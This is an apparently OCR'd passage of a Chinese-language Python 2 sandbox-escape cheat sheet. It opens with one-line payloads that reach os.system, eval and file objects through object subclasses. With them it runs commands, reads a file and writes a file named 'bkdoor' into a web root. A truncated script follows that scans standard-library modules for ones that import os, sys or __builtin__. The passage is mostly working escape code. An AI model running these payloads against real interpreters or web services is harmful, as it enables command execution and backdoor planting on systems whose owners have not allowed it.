 ```python
# 执行系统命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].os.system('ls')
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").system("ls")')
# 重新载入__builtin__
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtin__['__import__']("os").system("ls")
# 读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()
# 写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/bkdoor', 'w').write('123')
# 执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /var/www/html").read()')
```

可以编写一个函数对导入了 `os` 或 `sys` 的库进行一个遍历：

```python
#!/usr/bin/env python
all_modules = [
    'BaseHTTPServer', 'imaplib', 'shelve', 'Bastion', 'anydbm', 'imghdr', 'shlex', 'CDROM', 'argparse', 'imp', 'shutil', 'CGIHTTPServer', 'array', 'importlib', 'signal', 'ast', 'imputil', 'site', 'ConfigParser', 'asynchat', 'inspect', 'sitecustomize', 'Cookie', 'asyncore', 'io', 'smtpd', 'DLFCN', 'atexit', 'itertools', 'smtplib', 'audiodev', 'json', 'sndhdr', 'DocXMLRPCServer', 'audioop', 'keyword', 'socket', 'base64', 'lib2to3', 'spwd', 'FixTk', 'bdb', 'linecache', 'sqlite3', 'HTMLParser', 'binascii', 'linuxaudiodev', 'sre', 'IN', 'binhex', 'locale', 'sre_compile', 'MimeWriter', 'bisect', 'logging', 'sre_constants', 'Queue', 'bsddb', 'sre_parse', 'bz2', 'macpath', 'ssl', 'cPickle', 'macurl2path', 'stat', 'SimpleHTTPServer', 'cProfile', 'mailbox', 'statvfs', 'SimpleXMLRPCServer', 'cStringIO', 'mailcap', 'string', 'SocketServer', 'calendar', 'markupbase', 'stringold', 'StringIO', 'cgi', 'marshal', 'stringprep', 'TYPES', 'cgitb', 'math', 'strop', 'chunk', 'md5', 'struct', 'Tkconstants', 'cmath', 'mhlib', 'subprocess', 'cmd', 'mimetools', 'sunau', 'code', 'mimetypes', 'sunaudio', 'UserDict', 'codecs', 'mimify', 'symbol', 'UserList', 'codeop', 'mmap', 'symtable', 'UserString', 'collections', 'modulefinder', 'sys', 'colorsys', 'multifile', 'sysconfig', 'commands', 'multiprocessing', 'syslog', '__builtin__', 'compileall', 'mutex', 'tabnanny', '__future__', 'compiler', 'netrc', '_abcoll', 'contextlib', 'new', 'tarfile', '_ast', 'cookielib', 'nis', 'telnetlib', '_bisect', 'copy', 'nntplib', 'tempfile', '_bsddb', 'copy_reg', 'ntpath', 'termios', '_codecs', 'crypt', 'nturl2path', 'test', '_codecs_cn', 'csv', 'numbers', 'textwrap', '_codecs_hk', 'ctypes', 'opcode', '_codecs_iso2022', 'curses', 'operator', 'thread', '_codecs_jp', 'datetime', 'optparse', 'threading', '_codecs_kr', 'dbhash', 'os', 'time', '_codecs_tw', 'dbm', 'os2emxpath', 'timeit', '_collections', 'decimal', 'ossaudiodev', '_csv', 'difflib', 'parser', '_ctypes', 'dircache', 'pdb', '_ctypes_test', 'dis', 'pickle', '_curses', 'distutils', 'pickletools', '_curses_panel', 'doctest', 'pipes', '_elementtree', 'dumbdbm', 'pkgutil', 'toaiff', '_functools', 'dummy_thread', 'platform', 'token', '_hashlib', 'dummy_threading', 'plistlib', 'tokenize', '_heapq', 'email', 'popen2', 'trace', '_hotshot', 'encodings', 'poplib', 'traceback', '_io', 'ensurepip', 'posix', '_json', 'errno', 'posixfile', 'tty', '_locale', 'exceptions', 'posixpath', '_lsprof', 'fcntl', 'pprint', 'types', '_md5', 'filecmp', 'profile', 'unicodedata', '_multibytecodec', 'fileinput', 'pstats', 'unittest', '_multiprocessing', 'fnmatch', 'pty', 'urllib', '_osx_support', 'formatter', 'pwd', 'urllib2', '_pyio', 'fpformat', 'py_compile', 'urlparse', '_random', 'fractions', 'pyclbr', 'user', '_sha', 'ftplib', 'pydoc', 'uu', '_sha256', 'functools', 'pydoc_data', 'uuid', '_sha512', 'future_builtins', 'pyexpat', 'warnings', '_socket', 'gc', 'quopri', 'wave', '_sqlite3', 'genericpath', 'random', 'weakref', '_sre', 'getopt', 're', 'webbrowser', '_ssl', 'getpass', 'readline', 'whichdb', '_strptime', 'gettext', 'repr', 'wsgiref', '_struct', 'glob', 'resource', 'xdrlib', '_symtable', 'grp', 'rexec', 'xml', '_sysconfigdata', 'gzip', 'rfc822', 'xmllib', '_sysconfigdata_nd', 'hashlib', 'rlcompleter', 'xmlrpclib', '_testcapi', 'heapq', 'robotparser', 'xxsubtype', '_threading_local', 'hmac', 'runpy', 'zipfile', '_warnings', 'hotshot', 'sched', 'zipimport', '_weakref', 'htmlentitydefs', 'select', 'zlib', '_weakrefset', 'htmllib', 'sets', 'abc', 'httplib', 'sgmllib', 'aifc', 'ihooks', 'sha'
]
methods = ['os', 'sys', '__builtin__']

results = {}
for module in all_modules:
    results[module] = {
        'flag': 0,
```